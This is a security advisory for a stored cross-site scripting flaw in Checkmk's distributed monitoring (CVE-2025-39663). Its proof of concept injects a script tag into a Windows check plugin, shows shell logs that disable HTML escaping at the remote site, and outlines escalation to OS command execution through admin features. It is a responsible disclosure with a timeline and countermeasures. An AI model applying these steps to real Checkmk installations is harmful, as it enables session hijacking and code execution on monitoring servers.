




# Checkmk Cross Site Scripting #

## Vulnerability Overview ##

Checkmk in versions before 2.4.0p14 and 2.3.0p39, as well as in branches
2.2.0, 2.1.0 and 2.0.0 is prone to a Stored Cross-Site Scripting (XSS)
vulnerability when used in a distributed monitoring setup. Any connected
remote site can inject JavaScript code in the central site's user interface.

* **Identifier**            : SBA-ADV-20250729-01
* **Type of Vulnerability** : Cross Site Scripting
* **Software/Product Name** : [Checkmk UI](https://github.com/Checkmk/checkmk)
* **Vendor**                : [Checkmk](https://checkmk.com/)
* **Affected Versions**     : < 2.4.0p14, < 2.3.0p39, >= 2.2.0, >= 2.1.0,
                              >= 2.0.0
* **Fixed in Version**      : 2.4.0p14, 2.3.0p39
* **CVE ID**                : CVE-2025-39663
* **CVSS Vector**           : CVSS:3.1/AV:N/AC:L/PR:H/UI:N/S:C/C:H/I:H/A:H
* **CVSS Base Score**       : 9.1 (Critical)

## Vendor Description ##

> Checkmk is a comprehensive IT monitoring system designed for scalability,
> flexibility, and low resource consumption. It supports infrastructure and
> application monitoring across physical, virtual, containerized, and cloud
> environments.

Source: <https://github.com/Checkmk/checkmk>

## Impact ##

An attacker controlling a connected remote site can take control over web
sessions viewing the status of the remote site's hosts or services. When
attacking an admin session, this can lead to remote code execution in the
central site due to various available functionalities.

## Vulnerability Description ##

In a distributed monitoring setup, the central Checkmk site pulls information
from remote sites about their hosts and service status and displays it in the
user interface. The remote site can include HTML content in the service
summary/details that is not correctly escaped in the user interface. This is
problematic if the remote site is not trusted as much as the central site, for
example, because it is operated by a different team or company or is located
in a different security zone.

## Proof of Concept ##

It is possible to modify the Checkmk services at the remote site to
inject JavaScript code in all service check outputs. However, this is not
necessary, since Checkmk provides the configuration option
`Escape HTML in service output (Dangerous to deactivate - read help)`.
Therefore, it is possible to show the exploitability by enabling this option
in the remote site and only modifying a check on one host to return HTML
content with JavaScript.

As an example, we append the XSS vector `<script>alert(1)</script>` to the
output of the `win_defender` check script
(`C:\ProgramData\checkmk\agent\plugins\win_defender.ps1`) on a monitored
Windows host:

```powershell hl:4
[...]
if ($null -ne $DefenderData){
        Write-Host "<<<win_defender:sep(9)>>>"
        Write-Host $RTP "`t" $AS_Age "`t" $AV_Age "`t" $AM_ProductVersion "`t" $AM_EngineVersion '<script>alert(1)</script>'
    }
```

Since we did not modify, the configuration option
`Escape HTML in service output (Dangerous to deactivate - read help)` at the
remote site `site01` (on host `check1.site01.example`) yet, the user interface
at the central site `site` (on host `omd.site.example`), displays the XSS
vector correctly encoded:



Next, we modify the configuration option
`Escape HTML in service output (Dangerous to deactivate - read help)` at the
remote site `site01` by creating the configuration file
`/omd/sites/site01/etc/check_mk/conf.d/wato/site01/rules.mk` directly:

```bash hl:22
[admin@check1 ~]$ sudo su - site01
Last login: Tue Jul 29 14:55:07 CEST 2025 on pts/0

OMD[site01]:~$ ls -lah /omd/sites/site01/etc/check_mk/conf.d/wato/site01/
total 12K
drwx------. 4 site01 site01   64 Jul 29 15:23 ./
drwxrwx---. 4 site01 site01 4.0K Jul 29 15:23 ../
-rw-rw----. 1 site01 site01  262 Jul 29 15:23 .wato
-rw-rw----. 1 site01 site01  233 Jul 29 15:23 .wato.pkl
drwx------. 2 site01 site01   69 Jul 29 15:23 linux/
drwx------. 2 site01 site01   85 Jul 29 15:23 windows/

OMD[site01]:~$ cp -a /tmp/rules.mk /omd/sites/site01/etc/check_mk/conf.d/wato/site01/rules.mk

OMD[site01]:~$ cat /omd/sites/site01/etc/check_mk/conf.d/wato/site01/rules.mk
# Written by Checkmk store


extra_service_conf.setdefault('_ESCAPE_PLUGIN_OUTPUT', [])

extra_service_conf['_ESCAPE_PLUGIN_OUTPUT'] = [
{'id': '6c861d8a-89f6-4a01-bc8d-1f323e1a9af2', 'value': '0', 'condition': {'host_folder': '/%s/' % FOLDER_PATH}, 'options': {'disabled': False}},
] + extra_service_conf['_ESCAPE_PLUGIN_OUTPUT']


OMD[site01]:~$ ls -lah /omd/sites/site01/etc/check_mk/conf.d/wato/site01/
total 16K
drwx------. 4 site01 site01   80 Jul 29 15:30 ./
drwxrwx---. 4 site01 site01 4.0K Jul 29 15:23 ../
-rw-rw----. 1 site01 site01  262 Jul 29 15:23 .wato
-rw-rw----. 1 site01 site01  233 Jul 29 15:23 .wato.pkl
drwx------. 2 site01 site01   69 Jul 29 15:23 linux/
-rw-rw----. 1 site01 site01  333 Jul 29 15:01 rules.mk
drwx------. 2 site01 site01   85 Jul 29 15:23 windows/
```

Next, it is necessary to update the configuration and restart the Checkmk core
service:

```bash
OMD[site01]:~$ cmk-update-config --site-may-run
ATTENTION
  Some steps may take a long time depending on your installation.
  Please be patient.

Cleanup precompiled host and folder files
Verifying Checkmk configuration...
 01/11 Legacy check plug-ins...
[...]
 11/11 Deprecated .mk configuration of plugins...
Done (success)

Updating Checkmk configuration...
 01/37 Cleanup Micro Core config...
[...]
 36/37 Validating configuration files...
 37/37 Update core config...
Generating configuration for core (type cmc)...
Starting full compilation for all hosts Creating global helper config...OK
 Creating cmc protobuf configuration...OK
Done (success)

OMD[site01]:~$ omd restart cmc
Stopping cmc...killing 2801441........OK
Starting cmc...OK
```

The whole process is equivalent to creating a
`Escape HTML in service output (Dangerous to deactivate - read help)` rule
with the value set to
`Don't escape HTML (Dangerous - please read context help)` within the folder
`site01` without further restrictions to hosts or services.

If a victim now visits the service overview of the monitored Windows server on
the central site `site`, the XSS vector gets executed.





The XSS vector gets executed on at least the following pages:

```plain
https://omd.site.example/site/check_mk/view.py?host=winhost1.site01.example&view_name=host
https://omd.site.example/site/check_mk/view.py?host=winhost1.site01.example&service=Windows+Defender&site=site01&view_name=service
```

### Further Exploitation to OS Command Execution ###

The XSS payload could take over the web session of the users visiting these
pages and execute arbitrary functions with the permissions of the victim. If
the victim is an administrator of the central site, it is possible to get code
execution on the server of the central site. For example, by uploading and
activating a malicious extension or by defining a custom data source program
via the rule `Individual program call instead of agent access`.

Due to time restrictions further exploitation was simulated by using the UI
for creating a custom data source program via the rule
`Individual program call instead of agent access` with the command line
`/usr/bin/id`. For example, by testing the host connection, it is possible to
observe the output of the command, which shows that it is possible to execute
arbitrary OS commands with the Checkmk service user.



## Recommended Countermeasures ##

We recommend updating to Checkmk version 2.4.0p14, 2.3.0p39 or later and
disable the option `Trust this site completely` for all remote sites to apply
the following countermeasure.

Checkmk should not allow HTML content from remote sites and instead apply
correct encoding according to the output context. For example, when displaying
the content within an HTML website, HTML encoding must be performed before the
untrusted data is displayed.

## Timeline ##

* `2025-07-29` identification of vulnerability in version 2.4.0p1
* `2025-08-01` initial vendor contact via <security@checkmk.com>
* `2025-08-04` disclosed vulnerability to vendor
* `2025-08-04` vendor response with initial assessment
* `2025-08-08` vendor confirmed vulnerability and assigned CVE-2025-39663
* `2025-10-20` vendor released fix in version 2.4.0p14
* `2025-10-23` vendor released fix in version 2.3.0p39
* `2025-10-30` public disclosure

## References ##

1. Checkmk. Werk #17998: Add option to configure trust between central and
   remote site: <https://checkmk.com/werk/17998>
2. Checkmk Docs. Data source programs:
   <https://docs.checkmk.com/latest/en/datasource_programs.html>
3. OWASP Cheat Sheet Series. Cross Site Scripting Prevention Cheat Sheet:
   <https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html>
4. OWASP Web Security Testing Guide (WSTG) v4.2. Testing for Stored Cross Site
   Scripting:
   <https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/02-Testing_for_Stored_Cross_Site_Scripting.html>
5. OWASP Application Security Verification Standard (ASVS) v4.0.3. Section 5.3
   Output Encoding and Injection Prevention:
   <https://raw.githubusercontent.com/OWASP/ASVS/v4.0.3/4.0/OWASP%20Application%20Security%20Verification%20Standard%204.0.3-en.pdf>
6. Common Weakness Enumeration. CWE-79 Improper Neutralization of Input During
   Web Page Generation ('Cross-site Scripting'):
   <https://cwe.mitre.org/data/definitions/79.html>

## Credits ##

* Lisa Gnedt ([SBA Research](https://www.sba-research.org/))
